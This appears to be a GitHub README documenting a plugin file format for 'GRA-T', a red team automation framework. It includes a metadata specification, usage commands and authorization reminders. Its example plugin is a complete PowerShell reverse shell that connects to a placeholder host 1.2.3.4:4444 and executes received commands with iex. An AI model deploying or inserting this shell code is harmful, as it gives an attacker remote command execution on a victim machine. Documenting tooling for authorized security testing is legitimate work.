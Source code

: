 # 📜 GRA-T Addin (.grataddin) Plugin Documentation

`.grataddin` files are structured plugin scripts for the **GRA-T** framework and **GRA-T Editor**, designed for modular red team automation and post-exploitation workflows.

---

## ⚙️ Structure of a `.grataddin`

A plugin file must contain:

1️⃣ **Structured Metadata Header:**
```plaintext
# plugin.name: ReverseShell
# plugin.description: A PowerShell reverse shell plugin
# plugin.lang: powershell
# plugin.ositworkswith: windows
# plugin.commands: /plugin use ReverseShell LHOST=1.2.3.4 LPORT=4444
# plugin.args: LHOST:str LPORT:int
````

2️⃣ **Logic Body:**

The actual script logic in the specified language (`python`, `powershell`, `batch`, `bash`).

---

## 🛠️ Metadata Fields

| Field                  | Required    | Description                                       |
| ---------------------- | ----------- | ------------------------------------------------- |
| `plugin.name`          | ✅           | Unique plugin identifier                          |
| `plugin.description`   | ✅           | Short description of functionality                |
| `plugin.lang`          | ✅           | `python`, `powershell`, `batch`, or `bash`        |
| `plugin.ositworkswith` | ✅           | `windows` or `linux`                              |
| `plugin.commands`      | ✅           | Example usage in GRA-T                            |
| `plugin.args`          | ✅ if needed | Space-separated arguments with types (`ARG:type`) |

---

## 🖥️ Execution

### Testing Plugins

Plugins can be:

* Tested within **GRA-T Editor**:

  * Prompt for arguments defined in `plugin.args`.
  * Execute inside the IDE terminal using the selected shell.
* Deployed within **GRA-T** using:

  ```
  /plugin import your_plugin.grataddin
  /plugin use PluginName ARG1=val1 ARG2=val2
  ```

---

## 🧩 Example Plugin

**Powershell Reverse Shell Plugin:**

```powershell
# plugin.name: ReverseShell
# plugin.description: A basic PowerShell reverse shell
# plugin.lang: powershell
# plugin.ositworkswith: windows
# plugin.commands: /plugin use ReverseShell LHOST=1.2.3.4 LPORT=4444
# plugin.args: LHOST:str LPORT:int

$client = New-Object System.Net.Sockets.TCPClient($args[0], $args[1])
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
    $sendback = (iex $data 2>&1 | Out-String )
    $sendback2  = $sendback + 'PS ' + (pwd).Path + '> '
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush()
}
$client.Close()
```

---

## ✅ Best Practices

* **Use clear names and descriptions.**
* **Validate plugins using GRA-T Editor before using in live labs.**
* **Test with known safe environments before operational use.**
* Ensure **CLI argument parsing** is present where needed.
* Keep plugins **modular and minimal** for maintainability.
* PLEASE REFRAIN from :

-> Doing anything that you didn't explicitly say your script will do
-> Trying to exfiltrate data from other peoples labs


---

## 🚩 Reminder

**Only use plugins under explicit authorization in controlled environments.**

---

🐐 **For advanced scripting and automation, master `.grataddin` workflows to extend your GRA-T and lab pipeline seamlessly.**
